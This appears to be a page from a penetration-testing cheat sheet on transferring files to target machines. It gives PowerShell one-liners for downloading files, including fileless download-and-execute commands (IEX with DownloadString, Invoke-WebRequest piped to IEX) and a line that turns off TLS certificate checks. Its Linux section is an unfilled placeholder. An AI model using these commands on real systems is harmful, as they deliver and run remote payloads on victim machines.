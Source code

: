 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
  <summary><strong>Windows</strong></summary>

---

  <details>
    <summary><strong>PowerShell DownloadFile Method</strong></summary>

  Sync  
  ```powershell
  (New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE NAME>')
  ```

  Async  
  ```powershell
  (New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE NAME>')
  ```
  </details>

  <details>
    <summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

  Base  
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
  ```

  Pipeline input  
  ```powershell
  (New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
  ```
  </details>

  <details>
    <summary><strong>PowerShell Invoke-WebRequest</strong></summary>

  Base  
  ```powershell
  Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE NAME>
  ```

  ByPass Internet Explorer Error  
  ```powershell
  Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
  ```

  ByPass SSL/TLS Error  
  ```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  # Command to download the file
  ```

  </details>

---
</details>

---

<details>
  <summary><strong>Linux</strong></summary>

---

  <details>
    <summary><strong>TITLE</strong></summary>

    Contenido del subtema Linux.
  </details>

---
</details>

